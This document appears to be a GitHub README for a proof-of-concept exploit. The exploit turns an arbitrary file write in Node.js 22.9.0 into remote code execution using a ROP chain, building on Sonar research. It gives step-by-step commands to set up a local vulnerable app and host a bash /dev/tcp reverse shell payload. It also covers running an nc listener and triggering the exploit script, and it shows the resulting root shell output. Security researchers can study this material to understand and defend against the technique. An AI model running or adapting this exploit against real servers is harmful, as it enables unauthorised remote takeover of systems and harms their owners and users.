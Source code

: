 # NodeJS File Write to RCE PoC

[Sonar Research: Why Code Security Matters - Even in Hardened Environments](https://www.sonarsource.com/blog/why-code-security-matters-even-in-hardened-environments/)

Stefan Schiller, a researcher at Sonar, discovered a way to abuse an **arbitrary file write** vulnerability on a **read-only filesystem**. By sending fake structures to an open file descriptor which is a pipe to "libuv", they were able jump to an arbitrary location.

Because `node` is often compiled without PIE (Position Independent Executable), the `.text` section is not randomized with ASLR, giving us predictable addresses to jump to. They found one gadget to start a ROP chain, which I expanded to a full chain that sends a reverse shell.

## Running

This exploit was specifically made for the latest version of node as of writing, **version 22.9.0**. Almost any other version will have different addresses and memory, resulting in a **crash**. Using GDB, the exploit script needs to be tweaked in that case.

> [!WARNING]  
> Any exploit attempt will crash the server, also after exiting the reverse shell. Keep this in mind while testing on real targets.

1. Start the vulnerable application inside [`app/`](app/) on port :8000

```sh
docker compose up --build
```

2. Set up an HTTP server with the `sh` payload

```shell
$ cd exploit/
$ nano index.html
bash -c 'bash -i >& /dev/tcp/host.docker.internal/1337 0>&1'
$ python3 -m http.server 1338
```

3. In case of a reverse shell in [`exploit/index.html`](exploit/index.html), set up a listener

```sh
nc -lnvp 1337
```

4. Trigger the exploit using a ROP chain

```sh
cd exploit/
python3 -m pip install -r requirements.txt
python3 main.py
```

Enjoy your reverse shell in `nc`!

```shell
Listening on 0.0.0.0 1337
Connection received on 192.168.96.1 61726
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@694a4b7f7419:/app# id
uid=0(root) gid=0(root) groups=0(root)
```
